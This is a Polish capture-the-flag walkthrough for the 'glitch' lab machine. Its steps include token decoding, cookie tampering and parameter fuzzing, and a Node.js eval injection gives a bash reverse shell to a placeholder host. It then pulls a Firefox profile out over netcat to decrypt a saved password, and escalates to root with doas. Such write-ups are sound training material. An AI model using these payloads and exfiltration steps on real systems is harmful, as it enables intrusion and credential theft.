 1) Poczekaj okolo 5 min, az `blad 502` zniknie i strona sie zaladuje.

2) Otworz `narzedzia developerskie` i otworz `tag script`.

3) Z ponizszego kodu:

```

      function getAccess() {
        fetch('/api/ac**ss')        <---------------------
          .then((response) => response.json())
          .then((response) => {
            console.log(response);
          });
      }
    
```

Wyciagamy endpoint do pierwszego api. 

4) Doklejamy do linku `/api/ac**ss` i ukazuje nam sie zakodowany `token`:

```dGhpc****3RfcmVhbA==```

5) Mozna od razu zauwazyc ze ciag wyglada znajomo jest to `base64`.

Wchodzimy na np. te strone: [base64_decode](base64decode.org/)

Wpisujemy nasz `zakodowany token` i dostajemy `odkodowany`:

```this_is_*_**```

6) Wracamy na `glowna strone` wchodzimy w `narzedzia developerskie`.

Wchodzimy w zakladke `Cookies` i widzimy `token` ustawiony na wartosc `value` klikamy dwukrotnie na niego i zmieniamy wartosc na nasz `odkowany token`.

Po tym wszystkim `odswiezamy strone` (f5)

7) Ukazuje nam sie inna strona wchodzimy w zakladke `debugger`. 

Na lewym panelu rozwijamy zakladke `js` i klikamy w plik `script.js`

```
  const container = document.getElementById('items');
  await fetch('/api/**')                                <------------------------
    .then((response) => response.json())
    .then((response) => {
      response.sins.forEach((element) => {

```

Z powyzszego kodu widzimy kolejny endpoint do `nastepnego API`.

8) Dopisujemy go do naszego `linku` i przechwytujemy `request` przez np. w moim przykladu program `burp`.

9) Robimy `send to reapeater` i robimy `send`.

Jesli sie nie powiedzie `usun` z `requestu Header`:

```
    If-None-Match: W/"a9-0aR6bAfiK/DB+***"

```

I powinno juz wszystko dzialac. 

10) Sprawdzamy na jakie zapytania `pozwala` API. 

Zmieniamy `GET` na `OPTIONS`

```OPTIONS /api/i* HTTP/1.1```

11) Widzimy ze mozemy wykonac nastepujace rzeczy w tym endpoitcie:

```GET,HEAD,POST```

12) Sprawdzamy mozliwe parametry:

```wfuzz -c -z file,/usr/share/wordlists/common.txt -X POST --hh 45 -u http://<IP>/api/i*\?FUZZ\=test```

Widzimy funkcje `eval`, ktora powinna nam dac duzo do myslenia:

```
    ReferenceError: test is not defined
    at eval (eval at router.post (/var/web/routes/api.js:25:60
```

13) Interesuje nas `POST`. Szukamy w internecie `NodeJs RCE eval`. 

Ja skorzystalem z tej strony: [strona](https://blog.appsecco.com/nodejs-and-a-simple-rce-exploit-d79001837cc6)

Zauwazylem tam `exploit` ktory uzyje.

14) Zmieniamy w `burpie` parametr na `post` i dopisujemy `?cmd=` oraz doklejamy `exploit`:

```
    POST /api/i*?cmd=require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/<IP>/<PORT>+0>%261"') HTTP/1.1
```

W terminalu wpisujemy `nc -lvpn <PORT>`

I klikamy `send`. Powinnismy uzyskac dostep do uzytkownika `user`.

15) Wchodzimy do katalogu `/home/user` i widzimy `pierwsza flage`.

16) Po przepisaniu flagi (`cat <plik>`) pokazujemy wszystkie pliki w folderze `ls -la`.

Moze nam sie rzucic w oczy ukryty katalog `.firefox`. Wchodzimy w niego `cd .firefox`.

Widzimy cos co wyglada jak katolog sesji `b5w4643p.default-release`.

17) Na nasza maszyne pobieramy: [Firefox_decrypt](https://github.com/unode/firefox_decrypt)

Pakujemy sesje z servera `tar -cf archive.tar ./b* `.

Za pomoca [netcata](https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/) wysylamy plik na nasz komputer.

Na naszym komputerze wpisujemy: `nc -l -p 1234 > ./archive.tar`.

A na serverze: `nc -w 3 <IP> 1234 < archive.tar`.

18) Potem za pomoca `firefox_decrypt` deszyfrujemy haslo do uzytkownika `v0id`:

```tar -xvf archive.tar```

```./firefox_decrypt.py ./(SCIEZKA DO KATALOGU)b5w4643p.default-release```


Po chwili ukazuje nam sie:

```

    Website:   https://glitch.thm
    Username: 'v0id'
    Password: 'love_*'


```

19) Przechodzimy na uzytkownika `v0id` za pomoca `su v0id`.

Jesli pokaze Ci sie: `su: must be run from a terminal `. Wpisz: `python3 -c 'import pty; pty.spawn("/bin/bash")'`. A potem ponownie probujemy.

20) Za pomoca polecenia `doas` zwiekszamy nasze uprawnienia do uzytkownika `root`.

```doas -u root /bin/bash```

21) Wchodzimy do katalogu `/root` i zdobywamy `ostatnia flage`.
